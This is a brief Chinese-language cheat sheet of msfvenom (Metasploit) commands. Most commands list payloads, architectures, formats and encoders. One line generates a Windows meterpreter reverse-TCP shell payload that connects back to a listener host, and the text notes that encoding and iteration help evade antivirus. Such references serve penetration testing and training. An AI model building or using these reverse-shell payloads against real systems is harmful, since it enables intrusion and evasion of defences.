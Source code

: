# 常用指令

要Windows平台下的payload

```
msfvenom --list payload |grep windows

```

查看该payload支持的平台

```
msfvenom -p windows/shell/reverse_tcp --list archs

```

查看payload可以用哪些语言实现

```
msfvenom -p windows/shell/reverse_tcp -a x64 --list formats

```

查看该payload可以使用的参数

```
msfvenom -p windows/shell/reverse_tcp --list-options

```

当然这只是最基础的操作，msfvenom集成了msfpayload和msfencoder，还可以添加其他的指令，

通过编码和迭代来避免杀毒软件的查杀。

```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c

```

比如想查看`windows/meterpreter/reverse_tcp`支持什么平台、哪些选项，可以使用

```
msfvenom -p windows/meterpreter/reverse_tcp --list-options

```

查看所有payloads

```
msfvenom --list payloads

```

查看所有编码器

```
msfvenom --list encoders

```

类似可用`msfvenom --list`命令查看的还有`payloads, encoders, nops, platforms, archs, encrypt, formats`
